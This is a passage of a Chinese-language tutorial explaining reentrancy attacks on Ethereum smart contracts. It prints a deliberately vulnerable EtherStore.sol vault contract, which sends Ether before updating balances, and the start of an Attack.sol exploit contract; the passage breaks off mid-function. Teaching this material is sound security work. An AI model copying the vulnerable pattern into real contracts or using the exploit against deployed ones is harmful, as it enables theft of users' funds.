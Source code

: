 
## 重入漏洞

以太坊智能合约的特点之一是能够调用和利用其他外部合约的代码。合约通常也处理 Ether，因此通常会将 Ether 发送给各种外部用户地址。调用外部合约或将以太网发送到地址的操作需要合约提交外部调用。这些外部调用可能被攻击者劫持，迫使合约执行进一步的代码（即通过回退函数），包括回调自身。因此代码执行“重新进入”合约。这种攻击被用于臭名昭著的 DAO 攻击。

有关重入攻击的进一步阅读，请参阅[对智能合约的重入式攻击](https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4)和 [Consensus - 以太坊智能合约最佳实践](https://consensys.github.io/smart-contract-best-practices/known_attacks/#dos-with-unexpected-revert)。

### 漏洞

当合约将 Ether 发送到未知地址时，可能会发生此攻击。攻击者可以在 [Fallback 函数](https://solidity.readthedocs.io/en/latest/contracts.html?highlight=fallback#fallback-function)中的外部地址处构建一个包含恶意代码的合约。因此，当合约向此地址发送 Ether 时，它将调用恶意代码。通常，恶意代码会在易受攻击的合约上执行一个函数、该函数会运行一项开发人员不希望的操作。“重入”这个名称来源于外部恶意合约回复了易受攻击合约的功能，并在易受攻击的合约的任意位置“重新输入”了代码执行。

为了澄清这一点，请考虑简单易受伤害的合约，该合约充当以太坊保险库，允许存款人每周只提取 1 个 Ether。

EtherStore.sol：

```solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

该合约有两个公共职能。 ` depositFunds() ` 和 ` withdrawFunds() ` 。该 ` depositFunds() ` 功能只是增加发件人余额。该 ` withdrawFunds() ` 功能允许发件人指定要撤回的 wei 的数量。如果所要求的退出金额小于 1Ether 并且在上周没有发生撤回，它才会成功。额，真会是这样吗？... 

该漏洞出现在 [17] 行，我们向用户发送他们所要求的以太数量。考虑一个恶意攻击者创建下列合约，

Attack.sol：

```solidity
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialise the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }
  
  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
```